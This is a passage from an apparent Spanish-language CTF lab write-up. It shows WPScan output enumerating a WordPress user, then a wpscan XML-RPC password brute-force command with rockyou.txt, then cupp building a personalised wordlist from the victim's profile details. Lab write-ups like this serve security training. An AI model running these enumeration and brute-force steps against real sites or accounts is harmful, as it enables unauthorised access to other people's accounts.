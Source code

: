 ```js
 Brute Forcing Author IDs - Time: 00:00:00 <==========================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] luisillo
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://escolares.dl/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Sitemap (Aggressive Detection)
 |   - http://escolares.dl/wordpress/wp-sitemap-users-1.xml
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Jun 11 15:09:51 2024
[+] Requests Done: 1554
[+] Cached Requests: 9
[+] Data Sent: 454.537 KB
[+] Data Received: 1.179 MB
[+] Memory used: 230.879 MB
[+] Elapsed time: 00:01:23

```

`WPScan` nos lista **XML-RPC**, la versión de Wordpress, y entre otras cosas, el theme, los plugins y un usuario "luisillo", efectivamente el usuario que habíamos encontrado antes existe, ahora es momento de lanzar el ataque de fuerza bruta, en este caso usaremos el diccionario rockyou.txt.

- `wpscan --url http://172.18.0.2/wordpress/ -U luisillo -P /usr/share/wordlists/rockyou.txt --password-attack xmlrpc`

![[Pasted image 20240611212303.png]]

Desafortunadamente, usar el diccionario rockyou.txt no es la vía intencionada de ésta maquina, deberemos hacer nuestro propio diccionario usando `cupp` con los pocos datos que tenemos sobre la página/usuarios. 
`cupp` es un script de generación de diccionarios, en el que podemos darle datos sobre nuestra victima y nos generará un diccionario con diferentes combinaciones de contraseñas.
En este caso, vamos a intentar obtener toda la información posible de "luisillo", la página http:172.18.0.2/profesores.html que habíamos visitado antes contiene información que nos puede ser útil para usar con `cupp`.

![[Pasted image 20240611213217.png]]

- `cupp -i` (E introducimos los datos que tenemos)

![[Pasted image 20240611213620.png]]
